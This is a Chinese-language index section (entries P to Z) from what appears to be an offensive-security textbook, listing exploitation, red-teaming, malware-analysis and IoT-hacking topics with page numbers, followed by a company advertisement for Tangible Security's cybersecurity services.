- pattern_offset 工具, 219
- PaX (Page-eXec) 补丁, 241, 242
- pcap 捕获, 357
- Peach 模糊测试工具
  - 基于生成的模糊测试, 54–60
  - 基于变异的模糊测试, 49–54
- Pegasus 间谍软件, 407
- PEiD 签名扫描器, 436
- 渗透测试, 5–6, 111–126
  - 评估对比, 129
  - 学位课程, 117–118
  - 精神, 112
  - 频率, 120–121
  - 黑客的未来与渗透测试, 113
  - 实践操作, 115–117
  - IoT 设备, 549
  - 所需知识, 113
  - 责任考量, 119
  - 流程管理, 121–124
  - 识别良好安全性, 113–114
  - 报告生成, 123–124
  - 相关资源, 118, 125–126
  - 流程步骤, 7–8
  - 分类学, 112
  - 技巧, 118–124
  - 培训与教育, 114, 117–118
  - 可信顾问角色, 120
- 《渗透测试：黑客入门实战指南》(Weidman), 114
- Perl 命令, 202–203, 209
- 权限, SEND_SMS, 403–404
- 持久 Meterpreter, 333–336
- Phantom 社区版, 155
- 钓鱼邮件, 138
- phoneinfo.dll 文件, 381, 382, 383
- 实体 ATM 攻击, 453
- 物理安全评估, 137–138
- PIC 微控制器, 524
- PIN_GET_DATA 命令, 454
- 引脚/引脚图
  - JTAG, 520–522
  - MAX3227E, 553–554
  - RS-232, 550–551
  - SWD, 522
- 管道符, 325
- PIT 文件, 49–51
- 计划会议, 132–133
- Plohmann, Daniel, 67
- Ploutus 恶意软件, 454, 455, 457, 462
- 指针, 内存, 27–28
- pop 命令, 31, 199
- Popp, Joseph, 418
- Portainer UI, 478
- Portnoy, Aaron, 77
- 位置无关可执行文件 (PIE) 技术, 242
- Pouvesle, Nicolas, 365
- PowerShell, 321–340
  - 使用优势, 321–322
  - 引导过程, 326–328
  - 命令执行, 325
  - Empire 框架, 328, 336–339
  - 编码命令, 325–326
  - 执行策略, 324
  - 日志选项, 322
  - 通过运行 Mimikatz, 330–333
  - 可移植性, 323
  - PowerSploit 工具, 328–330
  - 使用 WinRM 远程运行, 195–196
  - 相关资源, 340
  - 脚本执行, 323–328
  - 总结回顾, 339–340
- PowerShell Empire, 328, 336–339
  - 设置, 336
  - 搭建 Empire C2, 337
  - 用于控制系统, 337–339
- PowerSploit, 328–330
  - 设置概述, 329–330
  - 持久 Meterpreter 创建, 333–336
- PowerUp 工具, 139
- SDR 预览阶段, 103–105
- printf 命令, 18–19, 23
- printf() 函数, 204, 225, 226–228, 248
- printLeak 函数, 314, 316
- 私有漏洞赏金计划, 162
- 私钥加密, 440
- 特权
  - 使用 Winexe 提权, 188–189
  - 使用 ret2libc 维持特权, 247–251
  - 提权方法, 139
- 进程内存, 84
- ProcessBuilder 类, 356, 368
- 处理器
  - 架构, 28–29, 512–513
  - 嵌入式系统, 511–513
- Procmon (进程监视器), 420
- 程序执行变更, 234–237
- 编程
  - 汇编语言, 30–34
  - C 语言, 15–24
  - 计算机内存, 24–28
  - 使用 gdb 调试, 34–37
  - Intel 处理器, 28–29
  - Objective-C 语言, 409
  - Python 语言, 37–44
  - 学习原因, 15
  - 相关资源, 45
  - 面向返回, 294
  - Swift 语言, 409
- Project Zero, 160
- 序言函数, 200
- 概念验证 (POC) 代码, 158
- 属性列表 (.plist) 文件, 410
- ProSSHD 服务器漏洞利用, 262–273
- 协议
  - 通信, 499
  - 无线, 498–499
- 代理浏览, 80
- 近接视图, 439–440
- PSEXEC 服务, 484
- pszProvider 参数, 439
- 公共漏洞赏金计划, 162
- 公钥加密, 418, 440
- 公开漏洞披露, 159–160, 174
- 紫队行动, 130, 143, 150–156
  - 通信, 154
  - 决策框架, 150–151
  - 阻断攻击, 151–153
  - 解释性概述, 143–145
  - 事件响应计划, 147
  - 杀伤链对策框架, 153–154
  - 优化, 154–155
  - 相关资源, 156
  - 另请参阅 蓝队行动; 红队行动
- push 命令, 31, 199, 269
- PUSHAD 指令, 426
- Pwn2Own 竞赛, 161
- PyBOMBS 系统, 92
- PyCommand 插件, 266, 295
- Python, 37–44
  - 字典, 42
  - 下载, 37
  - 文件访问, 42–44
  - “Hello, world!”示例, 38
  - 列表, 41–42
  - 数字, 40–41
  - 对象, 38–44
  - pywinrm 库, 194
  - Shodan 库, 504
  - 套接字, 44
  - sshuttle 程序, 544–545
  - 字符串, 38–40
  - PythonClassInformer, 76

## Q

- QEMU (快速模拟器), 558
  - 二进制模拟, 568–571
  - 固件模拟, 541, 544
  - 完整系统模拟, 571
  - 使用它设置系统, 560–562
- 四字 (QWORD), 24

## R

- 射频 (RF) 黑客攻击, 89
- Rain Forest Puppy, 159, 160
- 彩虹表, 182, 183
- 随机存取存储器 (RAM), 24–25
- Ransomlock 恶意软件, 419–435
  - 动态分析, 419–422
  - 静态分析, 422–435
- 勒索软件, 417–442
  - 分析, 435–441
  - 反调试检查, 427–430
  - 停用过程, 435
  - 内存中的解码, 422–427
  - 桌面所有权, 430–433
  - 动态分析, 419–422
  - 加密方法, 436, 440–441
  - 历史起源, 418
  - 支付方式, 418–419
  - WannaCry, 435–441
- Ransomlock, 419–435
  - 相关资源, 441–442
  - 静态分析, 422–435
  - 总结回顾, 441
  - 类型, 417–418
- Ranum, Marcus, 159
- Raspberry Pi 平台, 558
- RDP (远程桌面协议), 137, 490
- realloc() 函数, 26
- 实时操作系统 (RTOS), 525
- 侦察阶段, 151
- 红队行动, 9, 127–141
  - 自适应测试, 136–139
  - 行动后报告, 140
  - 攻击框架, 135
  - 所需通信, 132–134
  - 与其他评估对比, 129–130
  - 解释性概述, 128
  - 外部评估, 137
  - 内部评估, 138–139
  - 关注层级, 129
  - 可衡量事件, 133–134
  - 目标, 130–131
  - 物理安全评估, 137–138
  - 计划会议, 132–133
  - 潜在局限性, 131–132
  - 与紫队行动, 130
  - 社会工程评估, 138
  - 测试基础设施, 136
  - 了解威胁, 134–135
  - 另请参阅 蓝队行动; 紫队行动
- 重定向器, 136
- 反射式攻击, 507
- 寄存器, 29
- 修复, 128, 174
- 远程桌面协议 (RDP), 137, 490
- 远程交互式登录, 190
- 远程系统
  - 使用 Winexe 访问, 187–188
  - 遗留的制品, 188
  - 代码执行, 356–358
  - 运行 PowerShell, 195–196


- 远程签名策略，324

- 重命名
  - 函数，69
  - 系统调用，572–573

- 重复返回地址，208–209

- SDR 的重放阶段，94–96

- 报告
  - 渗透测试，123–124
  - Shodan 搜索引擎，503
  - 漏洞，172

- res 文件夹，391

- 资源
  - 关于 ATM 恶意软件，462
  - 关于二进制差分，384–385
  - 关于漏洞赏金计划，175
  - 关于嵌入式设备，526–527, 547
  - 关于模糊测试，64–65
  - 关于蜜罐，491–492
  - 关于物联网，509, 574
  - 关于 Linux 漏洞利用，223, 252
  - 关于移动应用，413–414
  - 关于渗透测试，118, 125–126
  - 关于 PowerShell，340
  - 关于编程，45
  - 关于紫队，156
  - 关于勒索软件，441–442
  - 关于逆向工程，88
  - 关于软件定义无线电，106–107
  - 关于 Web 应用漏洞利用，362
  - 关于 Windows 漏洞利用，287–288, 319

- resources.arc 文件，391

- Responder 程序，183–187
  - 下载，183
  - 使用它获取密码，185–187
  - 关于它的资源，197
  - 运行，184–185

- 负责任的漏洞披露，160

- REST 接口，356

- ret2libc，247–251

- ret 命令，32

- RETN 指令，260

- 返回地址，200, 208–209

- 面向返回编程（ROP）
  - 链构建，295–299, 316–319
  - DEP 漏洞利用，263, 289
  - 说明，294
  - 小工具，294–295
  - RVA ROP 链，316–319

- 逆向工程（RE），67–88
  - 代码注释，67–77
  - 协作分析，77–82
  - 动态分析，83–87, 402
  - IoT 恶意软件，565–574
  - 关于它的资源，88

- 逆向工程中间语言（REIL），78

- reverse_https 有效载荷，333

- Riddlinghafer, Jarrett，161

- Ring0 调试器，261

- Ripper 恶意软件，451, 455, 456, 457, 458

- RISC 架构，558

- Ritchie, Dennis，15

- .rm 文件，54

- 根文件系统（RFS），530

- root Shell，201

- ROP。参见面向返回编程

- Ropper 工具，314

- RS-232 串行端口，549–551
  - 概述，550
  - 引脚定义，550–551
  - 故障排除，551–557

- RSA 加密，439, 440–441

- Ruby BlackBag 工具包，326

- run 函数，301

- 运行时类型信息（RTTI），76

- RVA 偏移，314–316

- RVA ROP 链，316–319

## S

- S 公司，119

- 安全取消链接，286

- SafeDllSearchMode，379, 381, 382, 383

- SafeSEH
  - 绕过，275–277
  - 使用它的内存保护，275

- Saleae 逻辑分析仪，556

- Samba 服务，327–328

- 每秒样本数，90

- 沙箱环境，408–409, 558

- SANS 研究所，114, 116

- 保存的帧指针（SFP），285

- SCADA 系统，112, 472

- scanf 命令，19

- Schirra, Sascha，314

- Schneier, Bruce，159, 529

- scpclient 模块，264

- SCRAPE 流程，91–106
  - 分析阶段，96–103
  - 捕获阶段，92–94
  - 执行阶段，105–106
  - 预览阶段，103–105
  - 重放阶段，94–96
  - 搜索阶段，91–92

- 脚本块日志记录，322

- 脚本
  - Androperm，403
  - PatchClean，374
  - PatchExtract，374
  - PowerShell，323–328

- 另请参见 XSS

- SDR。参见软件定义无线电

- SDR 的搜索阶段，91–92

- searchsploit 函数，355, 356

- 安全软件开发生命周期（SSDLC），121

- 安全。参见网络安全

- 安全自动化，154–155

- 安全框架，146–147

- 安全信息事件管理（SIEM），149, 467

- 安全运营中心（SOC），155, 486, 491

- 安全编排，155

- SecurityTube.net 网站，118

- 段寄存器，29

- 段错误，202

- 内存分段，25

- SEGMEXEC 方法，241

- 结构化异常处理（SEH）
  - 说明，274–275
  - 利用，275
  - 覆盖记录，286
  - 使用 SafeSEH 保护，275

- SEHOP 覆盖保护，277–284

- SEHOP（SEH 覆盖保护），277–284
  - 绕过，277–284
  - 说明，277

- 语义着色，69

- 半拘束越狱，411

- 半非拘束越狱，411

- SEND_SMS 权限，403–404

- sendTextMessage 函数，405

- 串行接口，513–520
  - I2C，519–520
  - RS-232 端口，549–551
  - SPI，518–519
  - UART，513–518

- 串行外设接口（SPI），518–519

- 串行线调试（SWD）协议，522–523

- 服务器消息块（SMB）共享，323

- 服务登录，190

- 服务提供者接口（SPI），448, 450

- 设置用户 ID（SUID），206

- Shacham, Hovav，294

- Shadow Brokers 黑客组，435

- SHELL 变量，231

- Shellcode，207–208, 213, 235

- Shell
  - 用户 vs. root，201
  - 另请参见 PowerShell

- Shodan 搜索引擎，500–505
  - 命令行界面，503–504
  - Python 库 API，504–505
  - 报告生成，503
  - Web 界面，500–503

- SIEM（安全信息事件管理），149, 467

- 基于签名的工具，149

- SimpleHTTPServer 模块，382

- sizeof() 函数，17

- 读卡器，ATM，452

- Skype 应用漏洞利用，383–384

- sleep() 函数，265

- smali/baksmali 工具，398–399

- 小缓冲区漏洞利用，214–216

- 智能重定向器，136

- 智能手机应用。参见移动应用

- smbclient，187–188, 328

- SMS 诈骗，403–404

- SmsManager 对象，405

- snmpwalk 命令，472

- snprintf() 函数，225

- SOC（安全运营中心），155, 486, 491

- 社会工程学评估，138

- 社会工程学工具包（SET），328

- sockaddr 结构，572–573

- 套接字，Python，44

- 软件
  - 在其中披露漏洞，157–161
  - 嵌入式设备系统，523–525

- 软件定义无线电（SDR），89–107
  - 分析阶段，96–103
  - 购买考虑因素，89–91
  - 捕获阶段，92–94
  - 执行阶段，105–106
  - 说明性概述，89
  - 许可要求，91
  - 预览阶段，103–105
  - 重放阶段，94–96
  - 关于它的资源，106–107
  - SCRAPE 流程，91–106
  - 搜索阶段，91–92

- Sotirov, Alex，161

- 特殊寄存器，29

- SPI（串行外设接口），518–519

- SPI（服务提供者接口），448, 450

- SpiderFoot 搜索页面，478

- Spitzner, Lance，465

- sprintf() 函数，225, 533

- Spy++ 工具，433

- SQL（结构化查询语言），189

- SrvSmbTransaction() 函数，375

- SSH 仿真，473, 474

- sshuttle 程序，544–545

- 栈
  - 绕过其保护，238–241
  - 说明，26, 199
  - 格式化函数与，228–229
  - 函数调用过程与，199–201
  - 基于 GCC 的非可执行栈，241
  - 内存保护，237–238
  - 溢出漏洞利用，209–214
  - 随机化过程，243
  - 用于映射的令牌，230

- 栈金丝雀保护，256, 284

- 栈溢出，209–214
  - 命令行漏洞利用，209–212
  - 通用代码漏洞利用，212–214

- 栈粉碎保护（SSP），238

- 基于栈的缓冲区溢出检测（/GS），284–286
  - 说明，284–285
  - 绕过方法，285–286

- StackGuard，237, 251

- StackShield，237, 251

- 标准操作程序（SOP），144

- 斯坦福大学，117

- 工作说明书（SOW），122

- StateModel 部分，Peach Pit，51

- 静态分析
  - Cuckoo Sandbox，84
  - 嵌入式设备，529–536
  - Ransomlock 恶意软件，422–435
  - 另请参见动态分析

- 静态签名，436

- strace 工具，562, 563, 564

- strcpy 命令，20, 203, 205, 244, 259

- STRIDE 分类方案，135

- 字符串
  - 格式，225–229
  - 内存，27
  - Python，38–40
  - 读取任意，230

- strncpy 命令，20

- 结构化异常处理。参见 SEH

- 结构化查询语言（SQL），189

- Struts 框架，354–358
  - CVE-2017-5638 漏洞，354–356
  - CVE-2017-9805 漏洞，356–358
  - 设置环境，354
  - Struts Showcase 应用，355

- sub 命令，31

- SUCEFUL 恶意软件，458

- SUID 程序，206

- Sun Tzu，143, 465

- svc 命令，572

- SWD（串行线调试）协议，522–523

- Swift 编程语言，409

- 符号周期，98, 100

- 对称密钥算法，436

- 同步调用，447

- Synopsys 报告，157

- 系统调用指令，33, 572–573

- Sysdream.com 团队，277

- sysenter 指令，33

- 系统调用，32–33

- --system 标志，189

- system() 函数，242–247

- 系统信息查询，189–191

- 片上系统（SoC），512

- SYSTEM 用户，338

## T

- 战术、技术和程序（TTP），321

- tar 命令，472

- 目标地址，234–235

- tcpdump 工具，562, 563

- Telnet 仿真，473, 474

- Terraform 项目，146

- 测试访问端口（TAP），520

- Test 部分，Peach Pit，51

- 测试
  - 自适应，136–139
  - 频率和重点，9


- 基础设施, 136
- 另见 模糊测试
- 有线越狱, 411
- 内存中的 .text 节, 26
- textarea 对象, 300, 301, 304
- TheHive 项目, 155
- this 指针, 74–75
- 线程信息块 (TIB), 273
- 威胁狩猎, 147–148, 150
- 威胁
  - 用于模拟的 IoT 实验室, 557–562
  - 红队评估的理解, 134–135
- thresh 参数, 102
- Thumb 指令集, 558
- 标记
  - %s 格式, 230
  - %x 格式, 230
  - #$ 格式, 231
- Tomcat, 354, 355
- 工具
  - 二进制差分, 365–371
  - 协作, 123
  - Firefox 开发者, 348, 349
  - 事件响应, 149
  - 模式, 218, 219, 267
  - PowerSploit, 328–330
  - 虚拟机, 565
  - 另见 特定工具
- 顶级域 (TLDs), 136
- T-Pot 蜜罐, 475–480
- 内存泄漏跟踪, 303–313
- 转换后备缓冲区 (TLBs), 241
- TrapX DeceptionGrid, 480–491
  - 仪表板, 481
  - 欺骗令牌, 487, 488
  - 模拟过程, 485–491

- 事件分析屏幕, 482
- 文件分析, 484
- 杀伤链视图, 483
- 分类处理工作, 173
- TRUN 命令, 55, 56
- 可信顾问角色, 120–121
- tsec 用户账户, 476
- turbodiff 工具, 365, 367–371
- 类型混淆漏洞, 299

## U

- UAF (使用后释放) 漏洞, 286, 299–303
- UART 协议, 513–518
- Ubiquiti ER-X, 514, 515, 523
- U-Boot 引导加载程序, 523
- Ubuntu 系统, 476, 480, 555, 560
- 不道德黑客渗透测试, 8–9
- Unicode, 312, 313, 314–316, 405
- --uninstall 标志, 188
- 通用命名约定 (UNC) 路径, 327
- 无线越狱, 411
- 更新包, 529–533
- 使用后释放 (UAF) 漏洞, 286, 299–303
- -UseBasicParsing 选项, 327
- 用户账户控制 (UAC) 环境, 338
- 用户行为分析 (UBA), 153
- 用户 shell, 201
- 用户漏洞披露, 174
- uses-permission 元素, 393
- USRP B200 设备, 90
- UTF-8 字符, 357

- 验证漏洞利用, 221–222
- Vidas, Tim, 77
- 视图状态信息, 358
- 虚拟 ATM 攻击, 453
- 虚拟机 (VM)
  - 安装在其上的蜜罐, 468
  - QEMU 系统设置, 560–562
  - 在其上以 NAT 模式运行, 544
  - 设置 VMware, 262–263
  - 面向其的工具和交叉编译器, 565
  - 其未受保护的备份, 139
- 虚拟网络接口卡 (VNIC), 263
- 虚拟表 (vtables), 75
- 虚拟技术渗透测试, 115
- VirtualAlloc() 函数, 293, 295
- VirtualBox, 560
- VirtualProtect() 函数, 293, 295, 296, 317
- 计算机病毒, 465
- VMs。另见 虚拟机
- VMware, 262–263
- 易失性内存, 24
- 卷影复制服务 (VSS), 330
- vtguard 保护, 287
- VulnDB 数据库, 124
- 漏洞分析, 533–536
- 漏洞评估, 129
- 漏洞披露, 157–175
  - 针对其的漏洞赏金计划, 161–171
  - 与其相关的补偿问题, 160–161
  - 通过其谋生, 171–172
  - 完全公开披露, 159–160
  - 完全厂商披露, 158–159
  - 历史和概述, 157–158
  - 事件响应与, 173–174
  - 关于其的资源, 175
  - 负责任的披露, 160

- 漏洞报告, 172
- 漏洞扫描, 5
- Vulnhub.com 资源, 115
- vulnserver 应用程序, 54–55
- VxWorks 系统, 525

## W

Wannacry 勒索软件, 435–441, 487
战争游戏, 116, 128
Warner, Justin, 131
武器化阶段, 151–152, 153
武器化内存泄漏漏洞, 314–316
Web 应用程序漏洞利用, 341–362
  框架漏洞与, 354–358
  填充 oracle 攻击与, 358–361
  关于其的资源, 362
  摘要回顾, 362
  XSS 漏洞与, 341–353
Web 控制台, 479
Web 代理自动发现 (WPAD) 协议, 185
Web 资源。另见 资源
Weidman, Georgia, 114
西部州长大学, 118
Weston, David, 291
Wcetty 工具, 479
WFSExecute API, 451, 458, 460
WFS_INF_IDC_STATUS 命令, 461
WFSOpen API, 449–451, 458, 459
WFSRegister API, 451
WFSStartUp API, 448–449
wget 命令, 357–358
while 循环, 21
白盒模糊测试, 48
白卡方法, 132
白队, 130, 132, 144
whoami 命令, 188, 194, 201

- Wi-Fi 网络, 498
- win32_logonsession 类, 189–190
- WinDbg 调试器, 261, 305
- window 对象, 352
- Windows 社区版, 254
- Windows Defender 漏洞利用防护, 289, 291
- Windows 漏洞利用, 253–288
  - 高级, 289–319
  - 攻击向量, 267–269
  - 构建, 270–271
  - 绕过内存保护, 275–287, 292–319
  - 编译器与, 254–256
  - 控制 EIP, 264–265
  - 崩溃程序与, 258–261
  - 调试过程, 256–257, 271–273
  - 漏洞利用开发过程, 262–273
  - 针对其的 Immunity Debugger, 256–261
  - 内存泄漏漏洞, 299–319
  - 偏移量确定, 266–267
  - ProSSHD 服务器漏洞利用, 262–273
  - 关于其的资源, 287–288, 319
  - SEH 过程与, 273–274
- Windows 管理规范。另见 WMI
- Windows 内存保护, 275–287
  - ASLR, 290–291
  - 绕过, 275–287, 292–319
  - DEP, 289–290
  - EMET, 291
  - /GS 编译器, 284–286
  - 堆保护, 286–287
  - SafeSEH, 275–277
  - SEHOP, 277–284
  - Windows Defender 漏洞利用防护, 291
- Windows 开放服务架构 (WOSA), 446
- Windows 服务器更新服务 (WSUS), 372
- Windows 系统
  - 在其上编译程序, 254–261
  - 在其上崩溃程序, 258–261
  - 在其上调试程序, 256–258
  - 其漏洞利用, 253–320
  - 其上的 LLMNR 和 NBNS, 181–182
  - 市场份额, 253
  - 其内存保护, 275–287
  - 其上的缓解改进, 319
  - 其上的 NTLM 身份验证, 182–183
  - 针对其的更新工具, 372
- WOSA/XFS 标准, 446–451
- Windows 商业更新 (WUB), 372
- Winexe, 187–189
  - 使用其访问远程系统, 187–188
  - 使用其提升权限, 188–189
- WinRM 工具, 194–196
  - 使用其执行命令, 194–195
  - 使用其远程运行 PowerShell, 195–196
- WIPO 条约, 11
- 无线协议, 498–499
- Wireshark 分析器, 537–538
- WMI (Windows 管理规范), 189–194
  - 使用其执行命令, 191–194
  - 使用其的 PowerSploit 工具, 330
  - 使用其查询系统信息, 189–191
- WMI 查询语言 (WQL), 189
- 字 (数据), 24
- 蠕虫
  - 物联网, 507–508
  - 勒索软件, 435
- WQL (WMI 查询语言), 189
- 包装函数, 68–69
- sshd.exe 进程, 265

## X

- x64dbg 调试器, 85–87

- XFS (金融服务扩展), 446–451
  - 架构概述, 446–447
  - 可用的中间件, 448
  - XFS 管理器操作, 448–451
- XML 文件, 410
- XMPP 协议, 499
- xor 命令, 31
- XOR 解密位置, 72–73
- XSS (跨站点脚本), 341–353
  - 浏览器针对其的过滤器, 344–345, 348
  - 使用其更改应用程序逻辑, 348–350
  - 规避互联网常识, 346–348
  - 历史和概述, 341
  - 用于其的 JavaScript DOM, 350–353
  - 工作原理回顾, 343–345
  - 为其设置环境, 342–343
  - XSS Auditor, 344, 348, 350

## Y

- Yahoo! 漏洞赏金计划, 163
- YARA 签名, 70–72, 436, 437
- Young, Adam, 418
- Yung, Moti, 418

## Z

- Zigbee 协议, 498–499
- Zingbox, Inc., 557
- ZIP 存档, 390
- Z-wave 协议, 499
- Zynamics BinDiff, 365, 366–367

Tangible Security 为私营和公共部门提供工程和网络安全专业知识。我们利用使命、行业和领域知识来增强客户的系统能力并保障其运营安全。我们的系统工程、软件开发和网络安全专业知识包括军事系统开发、网络行动以及针对非常大型复杂企业的快速响应工作。

## 解决方案与服务

- 企业系统工程
- 软件开发与增强
- 身份与访问管理
- 公钥基础设施与启用
- 企业目录服务
- 基于角色的访问控制
- 网络安全评估/渗透测试
- 虚拟网络安全办公室 (vCSO)/咨询服务
- 硬件/软件/安全产品测试/物联网
- 治理、风险与合规服务 (GRC)
- 边界/多级安全
- 红队/蓝队/紫队
- 事件响应与修复
- 安全开发生命周期 (SDLC) 服务
- ICS/SCADA 服务
- 安全意识服务
- 网络安全培训
- 托管安全运营

## 合规标准

- NIST 800-53
- NIST 800-37
- NIST 800-61
- NIST 800-171
- NIST 800-30
- NIST 800-60
- NIST 800-39
- NIST 800-59
- NIST 800-18
- NIST 800-82
- PCI DSS
- DISA STIGs
- FIPS 199 和 200
- FISMA/GDPR
- 萨班斯-奥克斯利法案
- NERC CIP 和 ISA/IEC

我们解决难题。
我们阻止对手。
我们取得切实成果。


过去十年中，我们帮助我们的商业、国防和情报客户抵御了国家级黑客和无情对手所能发动的最严重攻击。我们团队的书籍、研究、网络安全专题讨论会参与以及会议演示，有助于推动网络安全行业的发展。

